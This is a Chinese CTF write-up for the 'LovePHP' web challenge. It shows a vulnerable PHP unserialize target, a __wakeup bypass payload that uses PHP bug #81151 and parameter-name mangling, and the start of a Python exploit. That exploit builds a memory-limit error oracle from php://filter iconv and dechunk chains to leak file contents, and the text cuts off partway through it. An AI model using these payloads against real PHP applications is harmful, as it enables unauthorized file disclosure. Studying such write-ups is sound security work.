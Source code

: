 # 初赛
## Web
### LovePHP
```php
<?php class Saferman{  
    public $check = True;  
    public function __destruct(){  
        if($this->check === True){            file($_GET['secret']);  
        }  
    }  
    public function __wakeup(){        $this->check=False;  
    }  
}  
if(isset($_GET['my_secret.flag'])){    unserialize($_GET['my_secret.flag']);  
}else{    highlight_file(__FILE__);  
}
```

wakeup的绕过，这里是自定义类反序列化的一个bug

![](attachments/Pasted%20image%2020230826182815.png)

[PHP :: Bug #81151 :: bypass __wakeup](https://bugs.php.net/bug.php?id=81151)

php在转化事会将.转为下划线第一个位置用`[`就可以绕过
payload： `?secret=&my[secret.flag=C:8:"Saferman":0:{}`

file()可以适用file伪协议

[Webの侧信道初步认识 | Boogiepop Doesn't Laugh (boogipop.com)](https://boogipop.com/2023/05/08/Web%E4%BE%A7%E4%BF%A1%E9%81%93%E5%88%9D%E6%AD%A5%E8%AE%A4%E8%AF%86/)
在url那里改一下就可以

exp
```python
import requests  
import sys  
from base64 import b64decode  
  
"""  
THE GRAND IDEA:  
We can use PHP memory limit as an error oracle. Repeatedly applying the convert.iconv.L1.UCS-4LE  
filter will blow up the string length by 4x every time it is used, which will quickly cause  
500 error if and only if the string is non empty. So we now have an oracle that tells us if  
the string is empty.  
  
THE GRAND IDEA 2:  
The dechunk filter is interesting.  
https://github.com/php/php-src/blob/01b3fc03c30c6cb85038250bb5640be3a09c6a32/ext/standard/filters.c#L1724  
It looks like it was implemented for something http related, but for our purposes, the interesting  
behavior is that if the string contains no newlines, it will wipe the entire string if and only if  
the string starts with A-Fa-f0-9, otherwise it will leave it untouched. This works perfect with our  
above oracle! In fact we can verify that since the flag starts with D that the filter chain  
  
dechunk|convert.iconv.L1.UCS-4LE|convert.iconv.L1.UCS-4LE|[...]|convert.iconv.L1.UCS-4LE  
  
does not cause a 500 error.  
  
THE REST:  
```